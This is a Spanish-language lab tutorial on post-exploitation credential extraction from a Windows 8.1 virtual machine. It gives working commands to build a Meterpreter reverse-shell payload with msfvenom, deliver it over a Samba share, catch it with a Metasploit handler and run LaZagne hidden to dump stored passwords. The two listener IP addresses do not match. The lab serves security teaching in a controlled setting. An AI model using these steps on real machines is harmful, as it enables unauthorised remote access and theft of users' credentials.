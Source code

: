 #  Laboratorio de Ingeniería Social — Extracción de Credenciales en Windows 8.1

##  Descripción del laboratorio

Este laboratorio simula un escenario de post-explotación en un entorno virtual controlado. El objetivo es demostrar cómo un atacante puede extraer credenciales almacenadas en una máquina Windows 8.1 utilizando herramientas como Meterpreter y LaZagne, sin que el usuario lo note. Todo el ejercicio se realiza con fines educativos y de concientización en ciberseguridad.

## 🛠️ Herramientas utilizadas

- Kali Linux (máquina atacante)
- Windows 8.1 (máquina víctima)
- LaZagne — herramienta de extracción de credenciales
- Meterpreter — ejecución remota
- msfvenom / msfconsole — generación y manejo de payloads
- Samba — para compartir archivos entre máquinas virtuales

## 🎯 Objetivo

Mostrar cómo un atacante puede ejecutar herramientas de extracción de credenciales en una máquina Windows comprometida, usando acceso remoto y técnicas silenciosas. El laboratorio permite entender los riesgos y aplicar medidas de defensa en entornos reales.

## 🧪 Instrucciones paso a paso

### 1. Preparación del entorno

- Inicia Kali Linux y Windows 8.1 en máquinas virtuales.
- Asegúrate de que ambas máquinas estén en la misma red virtual (puente o NAT).

### 2. Instalación de dependencias en Kali
sudo apt update

sudo apt install git python3 python3-pip mingw-w64 -y
git clone https://github.com/AlessandroZ/LaZagne.git
cd LaZagne
pip3 install -r requirements.txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.158 LPORT=4444 -f exe -o payload.exe
cp /home/kali/Desktop/payload.exe /home/kali/samba_share/
sudo systemctl restart smbd
sudo systemctl start nmbd
sudo systemctl status smbd
####Acceder desde Windows a la carpeta compartida
________En el explorador de archivos de Windows, accede a \\<IP_Kali>\samba_share
________Copia payload.exe y LaZagne.exe al escritorio de Windows
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.101.83
set LPORT 4444
exploit
#######Ejecutar LaZagne desde sesión Meterpreter
execute -f "C:\\Users\\Administrator\\Desktop\\LaZagne.exe" -a "all -oA -output C:\\Users\\Administrator\\Desktop\\resultados" -H





